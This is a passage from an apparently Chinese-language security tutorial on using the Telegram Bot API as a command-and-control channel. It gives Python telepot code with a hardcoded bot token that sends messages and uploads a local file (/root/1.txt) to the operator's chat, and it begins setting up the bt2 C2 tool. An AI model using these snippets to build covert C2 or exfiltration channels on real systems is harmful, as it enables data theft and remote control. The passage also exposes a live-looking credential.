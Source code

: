 ```
import telepot
from pprint import pprint
bot = telepot.Bot('221409431:AAEeLznGb-uzRONKCwHqyywmetjghCkXl_8')
bot.sendMessage(chat_id, 'Hello C2 Server')  

```

**注：**  
chat_id换成自己帐号的chat_id

如图

![Alt text](http://drops.javaweb.org/uploads/images/0966240c8a880af35ff93ca21115b7a78e466593.jpg)

Server端接收消息，显示如下：

![Alt text](http://drops.javaweb.org/uploads/images/647792da369116c6e162d5d0bf042c3eaec7a6b8.jpg)

### 8、发送文件

使用`bot.sendDocument(chat_id,file)`

代码如下：

```
import telepot
from pprint import pprint
bot = telepot.Bot('221409431:AAEeLznGb-uzRONKCwHqyywmetjghCkXl_8')
f = open('/root/1.txt', 'rb')  
bot.sendDocument(chat_id, f)

```

**注：**  
chat_id换成自己帐号的chat_id

如图，Server端可接收bot发过来的文件

![Alt text](http://drops.javaweb.org/uploads/images/a89d8c6857f82b4c654a516fa9388f8d85654876.jpg)

以上介绍了Bot API中发送、接收文本消息和上传、下载文件的功能，剩下只需要将功能拼接，添加命令解析，就可以实现一个简易的C2 Server POC

0x04 bt2测试
=====

### 1、搭建C2 Server

同0x02

### 2、配置环境

```
pip install telepot
pip install requests
git clone https://github.com/blazeinfosec/bt2.git

```
